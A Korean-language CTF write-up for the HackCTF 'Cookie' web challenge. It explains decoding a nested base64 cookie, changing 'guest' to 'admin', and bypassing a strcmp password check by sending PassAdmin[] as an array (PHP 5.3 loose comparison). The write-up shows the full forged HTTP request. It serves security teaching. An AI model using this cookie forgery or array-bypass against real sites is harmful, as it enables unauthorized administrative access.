






# HackCTF - WEB - Cookie

일단 문제 사이트에 접근을 합니다.



그러면 이런식으로 쿠키에 무언가가 있다는 것을 암시하는 문구가 나옵니다.

이때 쿠키에 대해 살펴 보면 Cookie 값과 PassAdmin이라는 쿠키가 아래와 같이 보입니다.





이때 Cookie의 값을 보면 Base64의 범위에 속하는 것을 볼 수 있는데 한번 DeCoding을 해봅니다.



한번 Decoding를 했을때 결과 값이 Base64여서 결과 값이 나올때까지 반복하여 DeCoding를 하니 **{"id":"2","type":"guest"}** 값이 나오는데 이때 guest를 admin으로 변경하여 EnCoding를 하여 서버로 전송해봅니다.



패스워드에 대해 틀렸다고 경고를 출력 하는 것을 볼 수 있는데 PassAdmin에 대해서도 우회를 해야 한다는 것을 알 수가 있었습니다.

PHP의 느슨한 비교를 이용하여 공격을 해야 하는 것으로 예상이 됩니다.

PHP의 strcmp(arg1,arg2)함수는 arg1이 더 크면 0보다 큰 값(양수)을 리턴하고 arg2가 더 크면 0보다 작은 값(음수)을 리턴합니다. 그리고 마지막으로 값이 같을때 0을 리턴하게 되는데 이때 **php5.3** 버전에서는 Array타입과 비교를 하면 Null를 리턴을 하게 되는 취약점이 있습니다. 그리고 php의 느슨한 비교를 이용하여 0==null를 비교하게 되면 true를 리턴하게 됩니다. 이제 이점을 이용해서 공격을 해봅니다.

```http
GET / HTTP/1.1
Host: ctf.j0n9hyun.xyz:2027
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.146 Whale/2.6.89.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: Hm_lpvt_29884b6641f1b5709cc89a8ce5a99366=1575983513; Hm_lvt_29884b6641f1b5709cc89a8ce5a99366=1575978988; _fbp=fb.1.1575978981442.1558009542; _ga=GA1.2.1648668259.1573465863; _gid=GA1.2.1890637559.1575894614; _hist=TEST%24etc%20passwd; Cookie=WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXVmRTZEdGWE5HbG1VVDA5; PassAdmin[]=; PHPSESSID=rmsjabjhdvlhu8cp8bsa995p45; session=.eJwNz7FugzAQANBfqW5mwA7pgNShFSQK1RlR2bHOGwUqsDkiFVUBovx72d_yHlC3PEyQ_tTj3EUwtJAKKV4jmG5T00H6gJdvSKHU16BkdcTMxMTFqDwdFJ9CafOYNIkyC6s7V6uyF4m2Eko6xvNp3C0773pl843kRaA0d9IFl_o9Qc4FekrImtjpJkHf90pfGXVzQI-Lyj6C021w_mtQTCsy7sas5MPR2XxRuyFtFvSqx6wfaDN3tdEbPCP4m7vfqeY9AEXdzd3tc2B4_gM2Xk4a.EM_P2A.Gx4Mr9GrGMSRPs5hUMFmOdKw-Es; wcs_bt=55c48ac9e22bec:1575983512
Connection: close
```


